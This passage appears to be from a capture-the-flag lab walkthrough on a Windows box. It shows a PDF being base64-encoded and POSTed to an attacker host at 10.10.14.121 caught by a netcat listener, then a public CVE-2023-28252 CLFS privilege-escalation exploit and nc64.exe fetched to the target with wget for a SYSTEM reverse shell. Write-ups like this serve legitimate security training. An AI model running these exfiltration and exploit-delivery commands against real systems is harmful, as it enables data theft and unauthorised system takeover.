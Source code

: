 -   As we only have 1 connection and no evil-winrm etc we have to live off the land. Luckily we can easily exfiltrate this using PowerShell &amp; base64 encoding.
    -   +Note+: I actually have a custom webserver called [bloodserver](https://bloodstiller.com/tools/bloodserver/) which would be perfect for this but I wanted to challenge myself to live off the land as much as possible with this box so stuck to using inbuilt windows functionality where possible.

-   **Lets base64 encode the pdf and assign to the variable** `$b64`:
    -   `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Users\sam.emerson\Documents\CVE-2023-28252_Summary.pdf' -Encoding Byte))`
        -   {{< figure src="/ox-hugo/2024-11-05-163435_.png" >}}

-   **Setup our listner**:
    -   `nc -nvlp 9999`

-   **Send the base64 encoded pdf to our attack host**:
    -   `Invoke-WebRequest -Uri http://10.10.14.121:9999/ -Method POST -Body $b64`
    -   {{< figure src="/ox-hugo/2024-11-05-163413_.png" >}}

-   **Received on listner**:
    -   {{< figure src="/ox-hugo/2024-11-05-163343_.png" >}}

-   **Decode the base64 encoded string**:
    -   `echo "[bas64encodedpdf]" | base64 -d -w 0 >  CVE-2023-28252_Summary.pdf`
    -   {{< figure src="/ox-hugo/2024-11-05-163313_.png" >}}

-   **Reading the PDF goes more in depth about CVE-2023-28252**:
    -   {{< figure src="/ox-hugo/2024-11-05-175535_.png" >}}


## 3. Privilege Escalation: {#3-dot-privilege-escalation}


### Researching CVE-2023-28252 (CLFS) Vulnerability: {#researching-cve-2023-28252--clfs--vulnerability}

So as it looks like this host is vulnerable to this specific exploit (well its implied) lets find a POC.

-   **After some looking online I find various exploits however this one is actually pre-compiled and can save us some time.**
    -   <https://github.com/duck-sec/CVE-2023-28252-Compiled-exe>
    -   +Note+: Looking at the notes it also allows us to pass another binary as an argument to be executed. This is ideal as if we can run a process/binary with elevated privileges we can get a reverse shell as `NT/Authority`

-   +Deep Dive+: I have written a deep dive on this particular exploit you can find it here:
    -   <https://bloodstiller.com/articles/understanding2023-28252-clfs/>


-   **I clone exploit**:
    -   `git clone https://github.com/duck-sec/CVE-2023-28252-Compiled-exe.git`

-   **Transfer the exploit to the target**:
    -   `wget http://10.10.14.121:9000/exploit.exe -o ex.exe`
    -   {{< figure src="/ox-hugo/2024-11-04-194403_.png" >}}

-   **As this exploit allows us to execute a binary as an argument lets transfer** `n64.exe` **to the target too**:
    -   `wget http://10.10.14.121:9000/nc64.exe -o nc64.exe`
    -   {{< figure src="/ox-hugo/2024-11-04-194156_.png" >}}

